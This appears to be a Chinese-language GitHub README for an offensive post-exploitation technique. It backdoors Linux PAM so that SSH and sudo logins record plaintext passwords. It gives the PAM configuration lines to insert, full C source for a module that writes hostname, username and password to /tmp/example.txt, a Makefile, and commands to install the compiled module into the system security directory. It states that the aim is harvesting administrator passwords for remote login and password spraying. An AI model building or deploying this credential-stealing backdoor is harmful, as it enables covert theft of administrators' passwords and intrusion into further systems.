


## PAM记录ssh或sudo明文密码

### 利用需求

当我们获取到目标shell后，无法爆破shadow，或信息搜集无法获取到密码

但又想要获取ssh密码进行远程登录或者进行内网密码喷洒，或其他密码需求

可以利用这个方法获目标系统管理员登录的明文密码

### 详情

Ubuntu 下，通过对/etc/pam.d 文件夹下的 sshd 和 sudo 的 PAM 使用配置的查看，可以发现他们 都对 common-auth 配置进行了引用

因此我们在/etc/pam.d/common-auth 配置文件中添加以下 配置（ubuntu），而在 Centos 下则各自在/etc/pam.d/sshd 和/etc/pam.d/sudo 中添加如下配置:

```
auth optional example.so

account optional example.so
```

创建example.c文件

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <security/pam_appl.h> 
#include <security/pam_modules.h> 
#include <security/pam_ext.h> 
#include <unistd.h>

#define STOREPATH "/tmp/example.txt"

PAM_EXTERN int pam_sm_setcred( pam_handle_t *pamh, int flags, int argc, const char **argv ) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_acct_mgmt(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return PAM_SUCCESS; 
    }
PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, const char **argv ) {
    int retval;
    const char* username;
    const char* password; 
    char hostname[128];
    retval = pam_get_user(pamh, &username, "Username: "); 
    if (retval != PAM_SUCCESS) {
        return retval;
        }
    retval = pam_get_authtok(pamh,PAM_AUTHTOK,&password,NULL); if (retval != PAM_SUCCESS) {
        return retval;
        }
    gethostname(hostname, sizeof hostname);
    FILE *fp = NULL;
    fp = fopen(STOREPATH, "a+");
    fprintf(fp, "%s:%s:%s\n",hostname,username,password); 
    fclose(fp);

    return PAM_SUCCESS; 
}
```

创建Makefile文件

```
CFLAGS += -Werror -Wall
example.so: example.c
	gcc $(CFLAGS) -fPIC -shared -Xlinker -x -o $@ $<
```

终端执行make



Ubuntu将生成的example.so文件复制到/lib/security;centos将文件放入/lib64/security目录下，没有该目录的话就创建一个

最终的明文密码放在/tmp/example.txt文件中



### 使用方法

```
git clone https://github.com/yaunsky/sshpam
cd sshpam
make
cp example.so /lib/security;或cp example.so /lib64/security
```

### 报错解决

make时报错


需下载 libpam0g-dev

```
apt-get install libpam0g-dev
```


